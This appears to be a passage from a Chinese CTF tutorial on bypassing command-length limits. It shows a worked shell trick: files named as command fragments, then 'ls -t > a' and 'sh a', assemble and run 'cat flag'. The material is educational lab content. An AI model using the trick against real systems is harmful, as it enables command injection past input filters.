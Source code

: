 [![cH1BtO.png](https://z3.ax1x.com/2021/04/20/cH1BtO.png)](https://imgtu.com/i/cH1BtO)

用这种方法可以绕过一些长度限制读取文件内容。

```
sh cmd  #将cmd文件内容作为shell命令执行

选项：
	-c string：命令从-c后的字符串读取。
	-i：实现脚本交互。
	-n：进行shell脚本的语法检查。
	-x：实现shell脚本逐条语句的跟踪。
```

> ##### 利用 ``ls -t`` 和 ``>``以及换行符绕过长度限制执行命令(文件构造绕过)

在Linux中，我们使用``ls -t``命令后，可以将文件名按照时间顺序排列出来。(后创建的排在前面)

```cmd
root@kali:~/example# touch a
root@kali:~/example# touch b
root@kali:~/example# touch c
root@kali:~/example# ls -t
c  b  a
```

[![cH8ryd.png](https://z3.ax1x.com/2021/04/20/cH8ryd.png)](https://imgtu.com/i/cH8ryd)

让我们来看看``ls -t > ah``有什么效果(开始不存在``ah``这个文件)。

```cmd
lllyz@localhost:~/test$ ls -t > ah
lllyz@localhost:~/test$ cat ah
ah
flag
a.txt
test3.sh
test.sh
test5.sh
test4.sh
test2.sh
```

[![cH87mn.png](https://z3.ax1x.com/2021/04/20/cH87mn.png)](https://imgtu.com/i/cH87mn)

这条命令先执行了创建``ah``文件，然后将``ls -t``的执行结果写入``ah``文件中。

我们试试用这些方法来执行命令 ``cat flag``

```cmd
lllyz@localhost:~/test/test1$ ls
flag
lllyz@localhost:~/test/test1$ > 'ag'
lllyz@localhost:~/test/test1$ > 'fl\'
lllyz@localhost:~/test/test1$ > 't \'
lllyz@localhost:~/test/test1$ > 'ca\'
lllyz@localhost:~/test/test1$ ls -t
'ca\'  't \'  'fl\'   ag   flag
lllyz@localhost:~/test/test1$ ls -t > a
lllyz@localhost:~/test/test1$ sh a
a: 1: a: not found
this is flag, it belong to you, now!
a: 6: flag: not found
```
